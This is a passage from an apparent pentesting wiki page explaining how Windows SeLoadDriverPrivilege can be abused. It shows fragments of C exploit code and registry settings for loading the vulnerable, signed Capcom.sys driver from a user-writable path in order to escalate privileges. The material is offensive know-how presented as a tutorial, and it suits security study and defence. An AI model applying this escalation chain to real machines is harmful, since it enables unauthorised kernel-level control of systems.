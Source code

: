 ```c
        (PDWORD)NULL))
    {
        printf("AdjustTokenPrivileges error: %x", GetLastError());
        return FALSE;
    }

    system("cmd");
    return 0;
}
```
{% endcode %}

We compile the above, execute and the privilege `SeLoadDriverPrivilege` is now enabled:

![](../../.gitbook/assets/a10.png)

### Capcom.sys Driver Exploit <a id="capcom-sys-driver-exploit"></a>

To further prove the `SeLoadDriverPrivilege` is dangerous, let's **exploit it to elevate privileges**.

You can load a new driver using **NTLoadDriver:**

```cpp
NTSTATUS NTLoadDriver(
  _In_ PUNICODE_STRING DriverServiceName
);
```

By default the driver service name should be under `\Registry\Machine\System\CurrentControlSet\Services\`

But, according with to the **documentation** you **could** also **use** paths under **HKEY\_CURRENT\_USER**, so you could **modify** a **registry** there to **load arbitrary drivers** on the system.  
The relevant parameters that must be defined in the new registry are:

* **ImagePath:** REG\_EXPAND\_SZ type value which specifies the driver path. In this context, the path should be a directory with modification permissions by the non-privileged user.
* **Type**: Value of type REG\_WORD in which the type of the service is indicated. For our purpose, the value should be defined as SERVICE\_KERNEL\_DRIVER \(0x00000001\).

Therefore you could create a new registry in **`\Registry\User\<User-SID>\System\CurrentControlSet\MyService`** indicating in **ImagePath** the path to the driver and in **Type** the with value 1 and use those values on the exploit \(you can obtain the User SID using: `Get-ADUser -Identity 'USERNAME' | select SID` or `(New-Object System.Security.Principal.NTAccount("USERNAME")).Translate([System.Security.Principal.SecurityIdentifier]).value`

```bash
PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
```

The first one declares a string variable indicating where the vulnerable **Capcom.sys** driver is located on the victim system and the second one is a string variable indicating a service name that will be used \(could be any service\).  
Note, that the **driver must be signed by Windows** so you cannot load arbitrary drivers. But, **Capcom.sys** **can be abused to execute arbitrary code and is signed by Windows**, so the goal is to load this driver and exploit it.
